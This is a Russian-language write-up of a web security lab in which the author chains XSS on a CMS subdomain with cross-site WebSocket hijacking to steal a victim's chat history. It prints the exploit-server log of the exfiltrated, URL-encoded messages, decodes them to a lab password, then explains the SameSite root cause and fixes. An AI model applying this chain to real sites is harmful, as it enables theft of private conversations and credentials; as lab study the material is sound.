ЕБУШКИ_ВОРОБУШКИ!!!! Я ВСЕ ВЕРНО СДЕЛАЛ И В КОНЦЕ ПРОСТО ПРЕПУТАЛ МЕСТАМИ ДОМЕНЫ

```
45.67.139.104   2026-03-13 20:16:45 +0000 "GET /deliver-to-victim HTTP/1.1" 302 "user-agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36"
10.0.3.101      2026-03-13 20:16:45 +0000 "GET /exploit/ HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
10.0.3.101      2026-03-13 20:16:45 +0000 "GET /exploit?log=%7B%22user%22%3A%22Hal%20Pline%22%2C%22content%22%3A%22Hello%2C%20how%20can%20I%20help%3F%22%7D HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
10.0.3.101      2026-03-13 20:16:45 +0000 "GET /exploit?log=%7B%22user%22%3A%22You%22%2C%22content%22%3A%22I%20forgot%20my%20password%22%7D HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
10.0.3.101      2026-03-13 20:16:45 +0000 "GET /exploit?log=%7B%22user%22%3A%22CONNECTED%22%2C%22content%22%3A%22--%20Now%20chatting%20with%20Hal%20Pline%20--%22%7D HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
10.0.3.101      2026-03-13 20:16:45 +0000 "GET /exploit?log=%7B%22user%22%3A%22You%22%2C%22content%22%3A%22Thanks%2C%20I%20hope%20this%20doesn%26apos%3Bt%20come%20back%20to%20bite%20me!%22%7D HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
10.0.3.101      2026-03-13 20:16:45 +0000 "GET /exploit?log=%7B%22user%22%3A%22Hal%20Pline%22%2C%22content%22%3A%22No%20problem%20carlos%2C%20it%26apos%3Bs%20p6dq8eox51vfyurfms1a%22%7D HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
```

осталось распарсить это дело

```json
log=%7B%22user%22%3A%22Hal%20Pline%22%2C%22content%22%3A%22Hello%2C%20how%20can%20I%20help%3F%22%7D 

log=%7B%22user%22%3A%22You%22%2C%22content%22%3A%22I%20forgot%20my%20password%22%7D 

log=%7B%22user%22%3A%22CONNECTED%22%2C%22content%22%3A%22--%20Now%20chatting%20with%20Hal%20Pline%20--%22%7D 

log=%7B%22user%22%3A%22You%22%2C%22content%22%3A%22Thanks%2C%20I%20hope%20this%20doesn%26apos%3Bt%20come%20back%20to%20bite%20me!%22%7D 

log=%7B%22user%22%3A%22Hal%20Pline%22%2C%22content%22%3A%22No%20problem%20carlos%2C%20it%26apos%3Bs%20p6dq8eox51vfyurfms1a%22%7D 

теперь раскодирую эту чушь


log={"user":"Hal Pline","content":"Hello, how can I help?"} 

log={"user":"You","content":"I forgot my password"} 

log={"user":"CONNECTED","content":"-- Now chatting with Hal Pline --"} 

log={"user":"You","content":"Thanks, I hope this doesn&apos;t come back to bite me!"} 

log={"user":"Hal Pline","content":"No problem carlos, it&apos;s p6dq8eox51vfyurfms1a"} 


```

ну и вот и пароль в переписке
``carlos, it&apos;s p6dq8eox51vfyurfms1a"``

залогинился - лаба решена!!

ля... я тупо перепутал домены.... изначально...

--------

#### выводы

1 - нашел файл js с кодом того как работает месенджер
2 - понял как работает вебсокет здесь и смог сделать запрос который возвращал всю мою переписку
3 - нашел cms и wss домены (wss - для отк сокета и cms - там была форма входа в админку типо)
4 - нашел xss в cms
5 - допер своей башкой, что через xss в cms можно выполнить скрипт которому браузер будет доверять даже при наличии strict политики

6 ну а далее все просто, создал скрипт который открывает ws + получает всю переписку + потом все шлет на мой сервер

7 - потом я перепутал домены местам и тупил час - не врубаясь - почему ничего не работает

8 - догадался проверить все, и все заработало - получил чужую переписку через csrf->xss

9 - забрал пароль из чата и залогинился

----------

получилось взломать потому что разработчики не унифицировали политику безопасности для всех поддоменов на основном домене стоял samesite strict а на cms поддомене была xss и браузер считал их одним сайтом, и раздавал куку как родному домену

-------

защититься можно если на всех поддоменах внедрить строгую политику безопасности и экранировать пользовательский ввод на всех страницах включая формы логина, а также не использовать один домен для критических и не очень критических сервисов

------

лаба огонь конечно.. )